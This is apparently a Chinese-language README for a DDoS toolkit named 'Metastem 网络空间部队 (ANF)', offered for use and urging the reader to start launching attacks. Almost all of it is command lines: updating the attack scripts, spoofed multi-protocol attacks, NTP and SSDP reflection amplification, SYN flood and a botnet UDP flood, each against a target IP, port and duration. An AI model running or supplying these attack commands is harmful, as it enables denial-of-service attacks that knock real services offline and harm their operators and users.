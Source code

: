 # Metastem 网络空间部队（ANF）

该脚本运行于 **Linux 系统**。  
`anf/server/` 目录为 **Windows 用户**准备，但运行需要配合一个**网页包发送服务器（Web Package Sender Server）**。

---

## 🐧 Linux 用户操作指南：

1. 将本项目上传至你的系统；
2. 打开终端，运行 `./anf` 启动程序；
3. 按照提示与示例，开始发起攻击！

---

## 🪟 Windows 用户操作指南：

1. 你需要拥有一个**包发送服务器（Package Sender Server）**；
2. 更新攻击脚本的命令如下：

- 更新 NTP 脚本：
  ```
  ./TFDDOS ntp update -1
  ```

- 更新 UDP 脚本：
  ```
  ./TFDDOS udp update -1
  ```

- 更新 SYN 脚本：
  ```
  ./TFDDOS syn update -1
  ```

- 进入攻击模式：
  ```
  sudo -i
  ```

- 自定义伪造攻击（多协议）：
  ```
  ./la us 100 ntp udp ssdp -1
  ```

---

## ☠️ 支持的攻击方式：

- **NTP 反射放大攻击（推荐）**：
  ```
  ./ntp {ip} {端口} ntp.txt 10 -1 {持续时间（秒）}
  ```

- **SSDP 反射攻击**：
  ```
  ./ssdp {ip} {端口} ssdp.txt 10 -1 {持续时间（秒）}
  ```

- **SYN Flood 攻击**：
  ```
  ./syn {ip} {端口} {持续时间（秒）}
  ```

- **UDP 僵尸网络泛洪攻击**（支持 botnet）：
  ```
  ./udp {ip} {端口} 10 888 -1 {持续时间（秒）}
  ```
